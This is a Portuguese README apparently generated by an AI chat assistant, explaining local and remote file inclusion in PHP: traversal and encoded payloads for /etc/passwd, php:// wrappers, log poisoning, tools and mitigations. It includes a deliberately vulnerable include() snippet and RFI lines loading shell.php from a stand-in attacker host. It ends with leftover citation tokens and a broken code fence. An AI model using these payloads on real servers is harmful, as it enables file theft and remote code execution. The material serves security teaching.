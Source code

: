 # 🧪 LFI & RFI – Testes de Inclusão de Arquivos

## 📌 Tipos de Vulnerabilidades

### LFI (Local File Inclusion)

Permite que um atacante inclua arquivos do sistema local, como `/etc/passwd`, por meio de parâmetros de URL mal validados ([Wikipedia][1], [Invicti][2]).

### RFI (Remote File Inclusion)

Permite incluir e executar arquivos hospedados remotamente em servidores controlados pelo atacante, geralmente via URL como `http://attacker.com/shell.php` ([Invicti][3], [Imperva][4]).

---

## ⚙️ Técnicas Comuns de Exploração

### Traversal (Escalonamento de Diretórios)

Uso de seqüências como `../../../../etc/passwd` ou encoded/truncation variations (ex: `....//....//etc/passwd`) para escapar do diretório raiz&#x20;
.

### Codificações e Encodings

* **URL Encoding**: `..%2F..%2Fetc/passwd`
* **Double Encoding**: `..%252F..%252Fetc`
* **UTF‑8 truncation / meta:** `%c0%ae%c0%ae/etc/passwd` ([Exploit Notes][5], [HackTricks][6])

### Null Byte (%00)

Usado para truncar a extensão `.php` em aplicações vulneráveis (funciona em versões anteriores ao PHP 5.4) ([Exploit Notes][5], [Medium][7]).

### Wrappers PHP (e.g. `php://filter`, `php://input`)

* Extrair conteúdo de arquivos via base64 (`php://filter/read=convert.base64-encode/resource=index.php`)
* Execution via `php://input` para LFI → RCE .

### Log Poisoning / Inclusion de Arquivos de Log

Inserção de payloads via user-agent ou parâmetros em logs do servidor (`/proc/self/environ`) e posterior inclusão através de LFI ([Medium][7], [Wikipedia][1]).

### Upload de Arquivos Temporários

Se uma vulnerabilidade de upload permitir a criação de arquivos temporários previsíveis, um LFI pode explorá-los antes que sejam excluídos ([HackTricks][6]).

---

## 🛠 Ferramentas Utilizadas

* **Fimap**: ferramenta para identificar e explorar LFI / RFI automaticamente ([HackTricks][6]).
* Ferramentas de pentest como **Burp Suite**, **ZAP**, **Nessus**, e **Acunetix / Invicti**, capazes de detectar automaticamente pontos de inclusão de arquivos ([Number Analytics][8], [Invicti][2], [Invicti][3]).

---

## 🚫 Prevenção e Mitigações

### Validação de Entrada

* **Utilize whitelist** de arquivos permitidos ao invés de aceitar qualquer valor do usuário ([Medium][7], [Invicti][2], [Invicti][3]).
* Bloqueie ou filtre strings perigosas como `../`, `://` ou sequências codificadas.

### Configurações seguras de PHP

* **Desative `allow_url_include = Off`** (PHP ≥ 7.4 descontinuou essa funcionalidade) .
* **Desative `allow_url_fopen`**, se possível.

### Isolamento de Ambiente

Hospede as aplicações em ambientes isolados (como Docker) para limitar o impacto de possíveis inclusões arbitrárias ([Invicti][2]).

### Evitar Blacklists

Blacklists e filtros são insuficientes — atacantes podem contornar rapidamente com técnicas de encoding ou wrappers ([Invicti][2], [Medium][7]).

---

## 📋 Exemplos

### Vulnerável em PHP:

```php
<?php
$page = $_GET['page'];
include("pages/$page");
?>
```

Ataque típico LFI:

```
/script.php?page=../../../../etc/passwd
```

Ataque RFI (para servidores com `allow_url_include` ativado):

````
/script.php?page=http://atacante.com/shell.php
``` :contentReference[oaicite:14]{index=14}

---

## 🔎 Fluxo Típico de Teste

1. Identificar parâmetros passados para funções `include`, `require`, etc.
2. Testar traversal simples e encoded payloads.
3. Avaliar possibilidade de incluir arquivos de logs ou wrappers.
4. Testar RFI em ambientes PHP configurados com `allow_url_include`.
5. Automatizar com Fimap ou Burp Suite para descobertas escaláveis.
6. Validar configurações de whitelist ou desabilitar inclusões dinâmicas.

---

## ✅ Resumo

| Tipo    | Finalidade               | Risco principal                            |
|---------|---------------------------|--------------------------------------------|
| **LFI** | Inclusão de arquivos locais | Vazamento de dados ou escalation para RCE |
| **RFI** | Inclusão de arquivos remotos | Execução arbitrária de código no servidor  |

### Mitigação:
- Whitelist de valores permitidos
- Desativar features de include remoto
- Usar práticas sólidas de validação e codificação segura

---

## 🧠 Referências

- HackTricks: File Inclusion / Path traversal – técnicas e payloads para LFI/RFI :contentReference[oaicite:15]{index=15}  
- Invicti / Spanning / Imperva – definições, riscos e mitigação de LFI/RFI :contentReference[oaicite:16]{index=16}  
- Wikipedia e Exploit‑Notes – exemplos técnicos e encodings comuns :contentReference[oaicite:17]{index=17}

---

Se quiser que torne esse README mais detalhado (com payloadlists ou scripts), posso expandir!
::contentReference[oaicite:18]{index=18}
````

[1]: https://en.wikipedia.org/wiki/File_inclusion_vulnerability?utm_source=chatgpt.com "File inclusion vulnerability"
[2]: https://www.invicti.com/learn/local-file-inclusion-lfi/?utm_source=chatgpt.com "Local File Inclusion (LFI) - Invicti"
[3]: https://www.invicti.com/learn/remote-file-inclusion-rfi/?utm_source=chatgpt.com "Remote File Inclusion (RFI) - Invicti"
[4]: https://www.imperva.com/learn/application-security/rfi-remote-file-inclusion/?utm_source=chatgpt.com "What is RFI | Remote File Inclusion Example & Mitigation Methods"
[5]: https://exploit-notes.hdks.org/exploit/web/security-risk/file-inclusion/?utm_source=chatgpt.com "File Inclusion (LFI/RFI) - Exploit Notes"
[6]: https://hacktricks.boitatech.com.br/pentesting-web/file-inclusion?utm_source=chatgpt.com "File Inclusion/Path traversal - HackTricks - Boitatech"
[7]: https://medium.com/%40Aptive/local-file-inclusion-lfi-web-application-penetration-testing-cc9dc8dd3601?utm_source=chatgpt.com "Local File Inclusion (LFI) — Web Application Penetration Testing"
[8]: https://www.numberanalytics.com/blog/file-inclusion-exploitation-penetration-testing?utm_source=chatgpt.com "File Inclusion Exploitation: A Penetration Tester's Guide"
